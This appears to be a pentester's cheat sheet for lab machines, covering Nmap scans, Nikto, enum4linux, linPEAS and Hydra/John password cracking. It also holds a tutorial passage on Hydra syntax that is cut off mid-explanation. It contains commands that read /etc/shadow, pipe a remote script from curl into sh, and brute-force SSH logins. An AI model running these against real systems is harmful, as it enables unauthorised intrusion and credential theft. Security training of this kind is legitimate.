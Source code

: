 # Kali  

## Enum
Nmap  
```
Works better with `sudo`...  
# TCP SYN Scan: Get the list of live hosts and associated ports on the hosts without completing the TCP three-way handshake. #stealthier
nmap -sS 10.10.224.22
# Ping Scan: Allows scanning the live hosts in the network without going deeper and checking for ports services etc.
nmap -sn 10.10.224.227
# Operating System Scan: Allows scanning of the type of OS running on a live host.
nmap -O 10.10.224.227
# Detecting Services: Get a list of running services on a live host.
nmap -sV 10.10.224.22
```  
Nikto  
`nikto -host 10.10.224.227`

- Layer 7
```
# Gobuster
```

```sh
#enum4linux
/opt/enum4linux/enum4linux.pl -a $target_ip | tee enum4linux.log
```

```sh
# Basic poking around
cat /etc/passwd /etc/shadow
compgen -A function -abck
```
[Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
  - `curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh`


## Password Cracking
`/usr/share/wordlists/rockyou.txt`  
```sh
# Hydra
hydra -l $username -P /opt/rockyou.txt ssh://$target_ip
```
```sh
#Jonh the Ripper
/opt/JohnTheRipper/run/ssh2john.py $rsakeyfilepath > forjohn.txt
/opt/JohnTheRipper/run/john --wordlist=/opt/rockyou.txt
```


We want an automated way to try the common passwords or the entries from a word list; here comes THC Hydra. Hydra supports many protocols, including SSH, VNC, FTP, POP3, IMAP, SMTP, and all methods related to HTTP. You can learn more about THC Hydra by joining the Hydra room. The general command-line syntax is the following:

`hydra -l username -P wordlist.txt server service` where we specify the following options:

-l username: -l should precede the username, i.e. the login name of the target. You should omit this option if the service does not use a username.
-P wordlist.txt: -P precedes the wordlist.txt file, which contains the list of passwords you want to try with the provided username.
server is the hostname or IP address of the target server.
service indicates the service in which you are trying to launch the dictionary attack.
Consider the following concrete examples:

hydra -l mark -P /usr/share/wordlists/rockyou.txt 10.10.224.227 ssh will use mark as the username as it iterates over the provided passwords against the SSH server.
hydra -l mark -P /usr/share/wordlists/rockyou.txt ssh://10.10.224.227 is identical to the previous example. 10.10.224.227 ssh is the same as ssh://10.10.224.227.
You can replace ssh with another protocol name, such as rdp, vnc, ftp, pop3 or any other protocol supported by Hydra.

There are some extra optional arguments that you can add:

-V or -vV, for verbose, makes Hydra show the username and password combinations being tried. This verbosity is very convenient to see the progress, especially if you still need to be more confident in your command-line syntax.
-d, for debugging, provides more detailed information about what’s happening. The debugging output can save you much frustration; for instance, if Hydra tries to connect to a closed port and timing out, -d will reveal this immediately.
In the terminal window below, we use Hydra to find the password of the username alexander that allows access via SSH.